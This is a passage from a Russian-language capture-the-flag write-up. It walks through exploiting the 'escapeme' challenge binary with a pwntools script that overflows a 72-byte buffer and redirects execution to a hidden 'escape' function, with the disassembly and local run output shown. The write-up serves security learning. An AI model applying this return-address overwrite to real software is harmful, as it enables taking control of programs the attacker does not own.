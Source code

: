 ```bash
0x00000000004012c4  _fini

```

Здесь мы видим адресы ячеек памяти всех функций в данной программе. Раскомпилим функцию `escape` и узнаем точку входа:

```bash
pwndbg> disassemble escape
Dump of assembler code for function escape:
   0x000000000040122c <+0>:	push   rbp
   0x000000000040122d <+1>:	mov    rbp,rsp
   0x0000000000401230 <+4>:	lea    rdi,[rip+0x1e31]        # 0x403068
   0x0000000000401237 <+11>:	call   0x401030 <puts@plt>
   0x000000000040123c <+16>:	lea    rdi,[rip+0x1e4d]        # 0x403090
   0x0000000000401243 <+23>:	call   0x401030 <puts@plt>
   0x0000000000401248 <+28>:	mov    edi,0x0
   0x000000000040124d <+33>:	call   0x401060 <exit@plt>
End of assembler dump.
```

Самый первый адрес и является точкой входа в данную функцию. Теперь осталось написать скрипт для переполнения буффера и перехода на нужную нам функцию. Будем использовать библиотеку [pwntools](https://github.com/Gallopsled/pwntools) для Python.

Вот сам скрипт:
```py
from pwn import *

io = process('./escapeme')
# io = remote('localhost', 2370)
io.recvuntil(b'Enter the secret word: ')
io.sendline(b'A'*72 + p64(0x40122c))
print(io.interactive())
```

Здесь мы подключаемся сначала к файлу, чтобы проверить локально сможем ли мы получить флаг. `io.recvuntil(b'Enter the secret word: ')` означает, что мы будем читать все что выводится консоль до момента когда нам предложат ввести значение. `io.sendline(b'A'*72 + p64(0x40122c))` - эта строка как раз и является нашим payload. Здесь мы переполняем буфер 72 буквами "А" и после этого записываем в 64 битовую запись адрес точки входа в функцию `escape`. Запустим и проверим:

```bash
$python3 exploit.py 
[+] Starting local process './escapemetask': pid 279738
[*] Switching to interactive mode
[*] Process './escapemetask' stopped with exit code 0 (pid 279738)
[Nex'zaltar] Did you think it would be so easy?
[Nex'zaltar] You... You defeat me...
surctf_find_flag_on_the_server
[*] Got EOF while reading in interactive
```

Все хорошо, флаг выводится, теперь проверим на сервере (закомментим строку файлом и раскомментим строку с подключением по nc):
